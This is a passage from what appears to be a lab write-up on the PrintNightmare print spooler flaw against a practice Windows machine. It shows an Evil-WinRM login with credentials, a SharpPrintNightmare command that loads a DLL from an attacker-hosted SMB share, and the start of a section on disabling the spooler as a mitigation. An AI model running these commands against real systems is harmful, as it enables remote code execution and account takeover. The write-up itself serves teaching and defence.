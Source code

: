     Workstations allowed         All
    Logon script
    User profile
    Home directory
    Last logon                   Never
    
    Logon hours allowed          All
    
    Local Group Memberships      *Administrators       *Users
    Global Group memberships     *None
    The command completed successfully.
    

And Evil-WinRM works as well:

    
    
    oxdf@parrot$ evil-winrm -i 10.10.10.149 -u 0xdf -p 0xdf0xdf
    
    Evil-WinRM shell v2.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\0xdf\Documents>
    

#### RCE

The same EXE can be run to get remote execution from Windows. I had a tough
time getting it working:

    
    
    PS > .\SharpPrintNightmare.exe '\\10.10.14.200\share\AddUserDll.dll' \\10.10.10.149 heist hazard stealth1agent
    [*] pDriverPath C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL
    [*] Executing \\10.10.14.200\share\AddUserDll.dll
    [*] Try 1...
    [*] Stage 0: 5
    [*] Try 2...
    [*] Stage 0: 5
    [*] Try 3...
    [*] Stage 0: 5
    

It would try three times and stop. It’s possible I screwed up my SMB server.
Or that something else is wrong. I do know you have to run as a user in the
administrators group, but I tried both as 0xdf (who is in administrators) and
with PowerShell running as Administrator.

## Mitigation

### Disable Spooler

Up until a couple days ago, the only mitigation was to disable the print
spooler service.

From an admin shell (like 0xdf), I can do that with the following commands:
